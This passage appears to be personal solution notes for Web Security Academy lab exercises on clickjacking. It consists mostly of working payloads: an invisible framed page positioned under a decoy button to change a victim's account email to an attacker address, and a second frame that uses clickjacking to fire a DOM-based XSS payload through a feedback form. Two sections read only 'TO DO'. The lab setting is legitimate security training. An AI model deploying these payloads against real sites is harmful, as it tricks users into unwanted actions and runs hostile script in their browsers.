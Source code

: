     <style>
        iframe {
            position:relative;
            width:700px;
            height: 500px;
            opacity: 0.0001;
            z-index: 2;
        }
        div {
            position:absolute;
            top:300px;
            left:60px;
            z-index: 1;
        }
    </style>
    <div>Test me</div>
    <iframe src="0a08004b036b119783fa429300210071.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>

### Clickjacking with a frame buster script

TO DO 

### Exploiting clickjacking vulnerability to trigger DOM-based XSS

    <style>
        iframe {
            position:relative;
            width:700px;
            height: 500px;
            opacity: 0.0001;
            z-index: 2;
        }
        div {
            position:absolute;
            top:300px;
            left:60px;
            z-index: 1;
        }
    </style>
    <div>Test me</div>
    <iframe src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>

### Multistep clickjacking

TO DO

## === DOM-based vulnerabilities ===

### DOM XSS using web messages
